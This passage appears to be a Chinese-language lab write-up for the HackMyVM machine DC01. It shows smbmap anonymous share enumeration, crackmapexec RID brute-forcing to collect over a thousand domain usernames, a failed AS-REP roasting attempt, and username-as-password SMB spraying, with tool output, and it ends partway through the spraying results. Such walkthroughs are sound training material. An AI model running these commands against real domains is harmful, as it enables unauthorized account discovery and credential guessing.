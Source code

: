 作者开放了139 445端口，很明显的SMB特征

利用smbmap 枚举SMB服务 检测是否存在匿名登录或者来宾登录

```PowerShell
smbmap -u anonymous -H SOUPEDECODE.LOCAL

    \_\_\_\_\_\_\_\_  \_\_\_      \_\_\_  \_\_\_\_\_\_\_   \_\_\_      \_\_\_       \_\_         \_\_\_\_\_\_\_
   /"       )|"  \    /"  ||   \_  "\ |"  \    /"  |     /""\       |   \_\_ "\
  (:   \\_\_\_/  \   \  //   |(. |\_)  :) \   \  //   |    /    \      (. |\_\_) :)
   \\_\_\_  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  \_\_\_\_/
    \_\_/  \   |: \.        |(|  \_  \  |: \.        |  //  \_\_'  \    (|  /
   /" \   :) |.  \    /:  ||: |\_)  :)|.  \    /:  | /   /  \   \  /|\_\_/ \
  (\_\_\_\_\_\_\_/  |\_\_\_|\\_\_/|\_\_\_|(\_\_\_\_\_\_\_/ |\_\_\_|\\_\_/|\_\_\_|(\_\_\_/    \\_\_\_)(\_\_\_\_\_\_\_)
 -----------------------------------------------------------------------------
     SMBMap - Samba Share Enumerator | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[\*] Detected 1 hosts serving SMB
[\*] Established 1 SMB session(s)
                                                                                              
[+] IP: 192.168.56.128:445      Name: soupedcode.loacl          Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        backup                                                  NO ACCESS
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                NO ACCESS       Logon server share
        SYSVOL                                                  NO ACCESS       Logon server share
        Users                                                   NO ACCESS
```
发现 IPC$  是可以读取的

发现是可以匿名登录的，我们可以利用这个用户 进行相对标识符（RID）暴力枚举出域内的其他用户

```PowerShell
crackmapexec smb SOUPEDECODE.LOCAL -u 'anonymous' -p '' --rid-brute > rid_bruteforce.txt

cat rid\_bruteforce.txt | grep SidTypeUser | cut -d '\' -f2 | cut -d ' ' -f1 > valid\_users.txt
```
通过rid枚举 获取了1000多个用户名

ASREPRoasting 攻击

我们可以利用这些用户进行ASREPRoasting 攻击，但是都失败了。因为所有这些帐户都设置了 Kerberos 预身份验证所需的属性

## 4. SMB密码喷射

```PowerShell
┌──(root㉿kali)-[/home/kali/hmv/DC01]
└─# crackmapexec smb SOUPEDECODE.LOCAL -u valid\_users.txt -p valid\_users.txt  --no-bruteforce
SMB         SOUPEDECODE.LOCAL 445    DC01             [\*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB         SOUPEDECODE.LOCAL 445    DC01             [-] SOUPEDECODE.LOCAL\Administrator:Administrator STATUS\_LOGON\_FAILURE
SMB         SOUPEDECODE.LOCAL 445    DC01             [-] SOUPEDECODE.LOCAL\Guest:Guest STATUS\_LOGON\_FAILURE
SMB         SOUPEDECODE.LOCAL 445    DC01             [-] SOUPEDECODE.LOCAL\krbtgt:krbtgt STATUS\_LOGON\_FAILURE
SMB         SOUPEDECODE.LOCAL 445    DC01             [-] SOUPEDECODE.LOCAL\DC01$:DC01$ STATUS\_LOGON\_FAILURE
SMB         SOUPEDECODE.LOCAL 445    DC01             [-] SOUPEDECODE.LOCAL\bmark0:bmark0 STATUS\_LOGON\_FAILURE
```